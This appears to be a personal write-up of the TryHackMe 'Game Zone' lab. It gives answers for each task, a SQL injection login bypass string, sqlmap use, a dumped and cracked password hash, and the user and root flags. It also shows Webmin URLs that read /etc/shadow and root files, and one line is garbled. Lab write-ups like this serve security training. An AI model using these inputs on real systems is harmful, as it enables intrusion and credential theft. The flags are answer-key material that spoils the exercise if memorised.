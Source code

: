 #Game Zone
>Jeff Henschel 24FEB21
https://tryhackme.com/room/gamezone



export IP = url('imaurl('images/header_image.png') transparent no-repeat 100% -1pxges/header_image.png') transparent no-repeat 100% -1px





###Task 1
What is the name of the large cartoon avatar holding a sniper on the forum?
agent 47

'''
had to view source code to get image location, used wget to download and google reverse image search to find
'''



###Task 2
When you've logged in, what page do you get redirected to?
portal.php

'''
sql injection on username 
' or 1=1 -- -
'''

###Task 3
'''
using sql map
https://github.com/sqlmapproject/sqlmap
'''

In the users table, what is the hashed password?
+------------------------------------------------------------------+----------+
| pwd                                                              | username |
+------------------------------------------------------------------+----------+
| ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14 | agent47  |
+------------------------------------------------------------------+----------+


What was the username associated with the hashed password?

agent47

What was the other table name?
post


###Task 4
What is the de-hashed password?
raw-sha256
used ntk.skerritt.blog
also name-that-hash
videogamer124


What is the user flag?
649ac17b1480ac13ef1e4fa579dac95c

###Task 5 
What is the name of the exposed CMS?
webmin		
What is the CMS version?
1.580


###Task 6
What is the root flag?
http://localhost:10000/file/show.cgi/etc/shadow
a4b945830144bdd71908d12d902adeee
http://localhost:10000/file/show.cgi/root/root.txt

